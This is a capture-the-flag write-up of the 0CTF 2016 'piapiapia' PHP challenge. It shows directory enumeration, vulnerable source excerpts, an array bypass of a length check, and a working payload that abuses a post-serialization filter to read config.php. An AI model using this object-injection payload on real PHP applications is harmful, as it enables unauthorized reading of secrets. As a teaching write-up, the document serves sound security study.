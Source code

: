 ### References

- [@g0udan, piapiapia解题详细思路及复现, 2020-01-20](https://www.cnblogs.com/g0udan/p/12216207.html)
- [@frystal, [0CTF 2016]piapiapia, 2019-11-08](https://frystal.github.io/2019/11/08/0CTF-2016-piapiapia/)

**Tag: PHP unserialize, LFI**

1.Try sql injection so hard, just dirsearch :/

```tex
py .\dirsearch.py -e php,bak,zip -u http://192.168.200.129:8302 -t 20 -x 404

[22:15:44] Starting:
[22:15:59] 200 -    0B  - /config.php
[22:16:08] 200 -   11B  - /profile.php
[22:16:11] 301 -  185B  - /static  ->  http://192.168.200.129/static/
[22:16:12] 200 -   11B  - /update.php
[22:16:12] 301 -  185B  - /upload  ->  http://192.168.200.129/upload/
[22:16:12] 403 -  571B  - /upload/
[22:16:14] 200 -  392KB - /www.zip
```

we can found some interesting files like `www.zip`.

2.`$flag` variable stored inside `config.php`, may be we need to include or read this file to get the flag. It's easy to find that there are file operation functions `file_get_contents` in `profile.php`, and the parameter `$photo` is controllable:

```php
$profile=$user->show_profile($username);
if($profile  == null) {
    header('Location: update.php');
} else {
    $profile = unserialize($profile);
    $phone = $profile['phone'];
    $email = $profile['email'];
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));
```

so if we change `$profile['photo']` to `config.php`, we can get the flag at profile with base64 decoded.

3.Since there is a unserialization operation, so elsewhere have serialization definitely. We can find it in `update.php`:

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {
    $username = $_SESSION['username'];
    ...if...
    $file = $_FILES['photo'];
    ...if...
    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);
    $user->update_profile($username, serialize($profile));
```

Regular expressions are used here to filter the data we submit, one of them that we noticed was a little bit different:

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```

Use the `strlen` function to determine whether the nickname length exceeds 10, and we can easily bypass this restriction using array like `nickname[]=`.

Now we have preliminary ideas that we need to control serialized data make it can read `config.php` during unserialization.

4.Follow the `update_profile` function, in `class.php`:

```php
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile);
    $where = "username = '$username'";
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```

and the `filter`:

```php
public function filter($string) {
    $escape = array('\'', '\\\\');
    $escape = '/' . implode('|', $escape) . '/';
    $string = preg_replace($escape, '_', $string);

    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string);
}
```

The problem is, it's sanitized **after** being serialized,

> Any data with a certain structure may cause problems if the structure is disrupted after some processing.

the `filter` function replacing "where" with "hacker" changes the length of the string. Allowing us to replace part of serialized object with our content.

5.As mentioned above, We need replace photo file name with `config.php`:

```tex
";}s:5:"photo";s:10:"config.php";}
```

here are 34 characters, so we need input `where` 34 times and it replace to `hacker` increased string length by 34. Payload:

```python
>>> print('where' * 34 + '";}s:5:"photo";s:10:"config.php";}')
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```

During `unserialize()`, it will automatically ignore the content that can be serialized correctly. So the rest of the content is discarded.

![](https://i.imgur.com/aE8bb2L.png)

go profile.php:

![](https://i.imgur.com/2VPYIdP.png)

